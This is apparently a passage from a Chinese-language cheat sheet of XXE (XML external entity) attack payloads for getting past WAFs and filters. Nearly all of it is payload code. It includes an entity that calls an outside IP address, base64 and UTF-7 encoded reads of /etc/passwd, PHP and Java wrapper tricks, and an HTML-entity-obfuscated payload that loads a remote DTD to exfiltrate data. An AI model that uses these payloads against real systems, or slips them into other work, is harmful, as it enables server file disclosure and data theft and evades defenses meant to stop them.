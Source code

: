 可通过插件转换成：

```xml-dtd
Content-Type: application/xml;charset=UTF-8

<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE testingxxe [<!ENTITY xxe SYSTEM "http://34.229.92.127:8000/TEST.ext" >]> 
<root>
 <root>
  <firstName>&xxe;</firstName>
  <lastName/>
  <country>United States</country>
  <city>ddd</city>
  <postalCode>ddd</postalCode>
 </root>
</root>
```

### WAF & Protections Bypasses

#### Base64

```xml-dtd
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

该 payload 只有当XML服务器接受 data://协议是才会生效

#### **UTF-7**

```xml-dtd
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<stockCheck><productId>&example;</productId><storeId>1</storeId></stockCheck>-
```

当使用UTF-7编码时：

```xml-dtd
<!xml version="1.0" encoding="UTF-7"?-->
+ADw-+ACE-DOCTYPE+ACA-foo+ACA-+AFs-+ADw-+ACE-ENTITY+ACA-example+ACA-SYSTEM+ACA-+ACI-/etc/passwd+ACI-+AD4-+ACA-+AF0-+AD4-+AAo-+ADw-stockCheck+AD4-+ADw-productId+AD4-+ACY-example+ADs-+ADw-/productId+AD4-+ADw-storeId+AD4-1+ADw-/storeId+AD4-+ADw-/stockCheck+AD4-
```

#### File:/ Protocol Bypass

如果目标网页使用的是 PHP，可以使用php包装器 `php://filter/convert.base64-encode/resource=` 来访问内部文件而不需要再使用 file:/ 协议。

如果是 Java 的网页，可以使用 `jar:protocol`。

#### HTML 实体

您可以在用html实体编码的实体内创建一个实体，然后调用它来加载dtd。
请注意，使用的HTML实体需要是数字

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % a "&#x3C;&#x21;&#x45;&#x4E;&#x54;&#x49;&#x54;&#x59;&#x25;&#x64;&#x74;&#x64;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4D;&#x22;&#x68;&#x74;&#x74;&#x70;&#x3A;&#x2F;&#x2F;&#x6F;&#x75;&#x72;&#x73;&#x65;&#x72;&#x76;&#x65;&#x72;&#x2E;&#x63;&#x6F;&#x6D;&#x2F;&#x62;&#x79;&#x70;&#x61;&#x73;&#x73;&#x2E;&#x64;&#x74;&#x64;&#x22;&#x3E;" >%a;%dtd;]>
<data>
    <env>&exfil;</env>
</data>
```
